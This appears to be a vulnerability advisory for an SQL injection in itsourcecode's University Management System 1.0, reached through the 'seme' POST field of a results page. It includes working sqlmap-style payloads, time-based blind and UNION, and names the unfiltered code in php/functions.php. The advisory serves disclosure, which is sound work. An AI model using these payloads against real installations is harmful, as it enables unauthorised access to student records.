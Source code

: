 
# Vendor

itsourcecode

# Product

University Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2022/01/University-Management-System-Project-In-PHP-Source-Code.zip

# Description
Register and log in with a student account, and in the student account's backend, visit "/view_single_result.php?vr=123321&vn=mirage," where "vr" refers to the StudentID and "vn" to the student's name. Click the "view Result" button. There is an SQL injection vulnerability in the "seme" field of the POST data packet sent.

POC：
#-------------------------------------------------
Parameter: seme (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: seme=1st' AND (SELECT 4900 FROM (SELECT(SLEEP(5)))IWYu) AND 'sLik'='sLik

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: seme=1st' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b7a7171,0x424b4d66785475486669785141445a6a4e4f72774d675543446e585856446d686c56674b58685a57,0x7176767871),NULL-- -
#-------------------------------------------------
<img width="1668" alt="image" src="https://github.com/user-attachments/assets/e9b2bc29-552d-4374-9779-4a5b47de76c1">

# Analysis
In the php/functions.php page, the '$stid' field has not been subjected to strict filtering, resulting in a SQL injection vulnerability.

<img width="1070" alt="image" src="https://github.com/user-attachments/assets/650d4e48-1d67-4c93-a322-a93986ae7e55">
<img width="1441" alt="image" src="https://github.com/user-attachments/assets/7f2ee7ce-5332-450f-adfd-da58233d2801">

